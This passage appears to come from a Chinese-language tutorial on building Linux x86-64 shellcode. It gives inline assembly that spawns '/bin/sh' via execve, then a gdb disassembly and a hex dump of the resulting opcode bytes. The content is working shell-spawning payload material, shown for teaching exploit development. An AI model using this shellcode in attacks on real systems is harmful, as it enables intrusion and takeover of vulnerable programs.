 ```
shellcode_test1.c
void main() {
    __asm__(
        "jmp mycall\n\t"
        "func: pop %rbx\n\t"
        "mov %rbx, 0x8(%rsp)\n\t"
        "xor %rax, %rax\n\t"
        "movb %al, 0x7(%rsp)\n\t"
        "movl %eax, 0x10(%rsp)\n\t"
        "movb $0x3b, %al\n\t"
        "mov %rbx, %rdi\n\t"
        "lea 0x8(%rsp), %rsi\n\t"
        "lea 0x10(%rsp), %rdx\n\t"
        "syscall\n\t"
        "xor %rdi, %rdi\n\t"
        "xor %rax, %rax\n\t"
        "movb $60, %al\n\t"
        "syscall\n\t"
        "mycall: call func\n\t"
        ".string \"/bin/sh\""
        );
}
```

对照shellcode_test.c，我们只是改变了一些赋值操作。让我们看一下效果。

```
$ gcc shellcode_test1.c -o shellcode_test1
$ gdb shellcode_test1
...
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x00000000000005fa <+0>:    push   %rbp
   0x00000000000005fb <+1>:    mov    %rsp,%rbp
   0x00000000000005fe <+4>:    jmp    0x62c <main+50>
   0x0000000000000600 <+6>:    pop    %rbx
   0x0000000000000601 <+7>:    mov    %rbx,0x8(%rsp)
   0x0000000000000606 <+12>:    xor    %rax,%rax
   0x0000000000000609 <+15>:    mov    %al,0x7(%rsp)
   0x000000000000060d <+19>:    mov    %eax,0x10(%rsp)
   0x0000000000000611 <+23>:    mov    $0x3b,%al
   0x0000000000000613 <+25>:    mov    %rbx,%rdi
   0x0000000000000616 <+28>:    lea    0x8(%rsp),%rsi
   0x000000000000061b <+33>:    lea    0x10(%rsp),%rdx
   0x0000000000000620 <+38>:    syscall 
   0x0000000000000622 <+40>:    xor    %rdi,%rdi
   0x0000000000000625 <+43>:    xor    %rax,%rax
   0x0000000000000628 <+46>:    mov    $0x3c,%al
   0x000000000000062a <+48>:    syscall 
   0x000000000000062c <+50>:    callq  0x600 <main+6>
   0x0000000000000631 <+55>:    (bad)  
   0x0000000000000632 <+56>:    (bad)  
   0x0000000000000633 <+57>:    imul   $0x90006873,0x2f(%rsi),%ebp
   0x000000000000063a <+64>:    pop    %rbp
   0x000000000000063b <+65>:    retq   
End of assembler dump.
gdb-peda$ x /51xb main+4
0x5fe <main+4>:    0xeb    0x2c    0x5b    0x48    0x89    0x5c    0x24    0x08
0x606 <main+12>:    0x48    0x31    0xc0    0x88    0x44    0x24    0x07    0x89
0x60e <main+20>:    0x44    0x24    0x10    0xb0    0x3b    0x48    0x89    0xdf
0x616 <main+28>:    0x48    0x8d    0x74    0x24    0x08    0x48    0x8d    0x54
0x61e <main+36>:    0x24    0x10    0x0f    0x05    0x48    0x31    0xff    0x48
0x626 <main+44>:    0x31    0xc0    0xb0    0x3c    0x0f    0x05    0xe8    0xcf
0x62e <main+52>:    0xff    0xff    0xff 
```